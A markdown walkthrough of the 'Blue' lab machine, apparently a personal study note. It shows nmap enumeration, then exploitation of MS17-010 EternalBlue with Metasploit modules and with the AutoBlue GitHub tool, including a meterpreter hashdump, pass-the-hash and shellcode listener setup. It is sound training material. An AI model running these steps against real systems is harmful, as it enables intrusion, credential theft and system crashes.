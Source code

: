 # Blue Walkthrough

## Enumeration
Once you have Windows running in the foreground, log in to `Blue` using the credentials `Administrator` for the user name and `Password456!` for the password. Go to the Start Menu and search by typing in `cmd` so that we can get the IPv4 address of the machine using `ipconfig`.
![[Ipconfig of Blue.png]]
Start up your attack machine and open a terminal. We set `$IP` using `export IP=<address>` to the IP address like the one highlighted above. This way, while in the same terminal tab, we don't need to type out the IP every time we want to use it. Use `nmap` to search for services used by windows and save the output to `$IP-blue-scan`.
```bash
nmap -p- -A -T4 $IP -oA $IP-blue-scan
```
From the output, we see that our version of Windows is using the "Windows 7 Ultimate version 7601 Service Pack 1".
![[nmap scan of Blue.png]]

Go to Google and search for the exploit to this. There are several, one of which is with Metasploit and another we will use from GitHub. 

## With MetaSploit
After searching around on Google, we find that the box is vulnerable to MS17-010 EternalBlue and we can confirm this in with the `auxiliary` scanner so lets get it started.
`msfconsole` to start metasploit
`search eternalblue` to search for the EternalBlue exploit
`use auxiliary/scanner/smb/smb_ms17_010` for SMB RCE detection
`options` to list out our options. We need to set the `RHOSTS` only and then run the exploit by using either `run` or `exploit`.
![[SMB RCE detection with MetaSploit.png]]

Now that we know the box is vulnerable to EternalBlue let us search for it using `search eternalblue`
`use exploit/windows/smb/ms17_010_eternalblue`
`options`
`set rhosts <ip-address>`
`check` : this will confirm that it is indeed vulnerable
![[EternalBlue check confirms it is vulnerable.png]]
Now we can set our `LHOST` using `set lhost <ip-address>` and run the exploit.

Sometimes you'll see that the exploit didn't work as shown below and you have to do it over because the session wasn't created so try it again.
![[What FAIL output looks like.png]]

Got the hashdump:
![[Getting hashdump using meterpreter.png]]

Use Pass-the-Hash toolkit to bypass access for the Administrator. Per MITRE ATT&CK:
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.
source: https://attack.mitre.org/techniques/T1550/002/

## Without MetaSploit
Search in google for `eternalblue github` and find one that has good documentation.
There is one called AutoBlue and this is the one that we will be using: https://github.com/3ndG4me/AutoBlue-MS17-010.git
`cd /opt/` and `git clone` that repo and`cd AutoBlue-MS17-010` where we will install necessary libraries with 
```bash
pip install -r requirements.txt
```
We can now check to see if `Blue` is vulnerable with:
```bash
python eternal_checker.py $IP
```
**target not patched** means it is not patched against the Eternal Blue exploit.

Running the AutoBlue checker we get:
![[AutoBlue confirms Target is not patched.png]]

Now go into the `shellcode` folder and run `shell_prep.sh` with sudo privileges.
```bash
sudo ./shell_prep.sh
```
![[Setting up EternalBlue shellcode with compiler.png]]

Enter the following:
`LHOST`: Target IP address
`LPORT`: Target port x64 (can be anything like 9999 and for x86 just ignore it and put something like 2222).
And for the other two:
![[More shellcode configuration.png]]

This will start a listener and depending on what you entered should start our listener.
![[Running EternalBlue exploit as cmd.png]]

### Crashing the Blue VM
Going back up to the parent directory of AutoBlue, we can try the exploit which will cause Windows to crash.
![[Blue crashes when running this.png]]

Windows will either show a Blue screen or need to restart.

So make sure you know what you are doing when running scripts off GitHub.